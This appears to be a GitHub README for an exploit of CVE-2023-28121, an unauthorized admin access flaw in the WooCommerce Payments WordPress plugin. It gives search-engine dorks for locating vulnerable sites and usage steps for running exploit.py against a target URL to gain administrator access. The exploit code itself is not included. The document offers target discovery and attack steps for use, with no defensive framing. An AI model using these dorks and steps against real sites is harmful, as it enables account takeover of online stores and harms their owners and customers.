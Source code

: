 ##  CVE-2023-28121
Wordpress WooCommerce plugin Unauthorized Admin Access

- Google dork:
```
inurl:/wp-content/plugins/woocommerce-payments/
```
- Hunter dork:
```
web.body="/wp-content/plugins/woocommerce-payments/"
```

### Usage
```
# Edit the Username, Password and Email to your own in the exploit.

# Run:
python3 exploit.py http://target.com
```
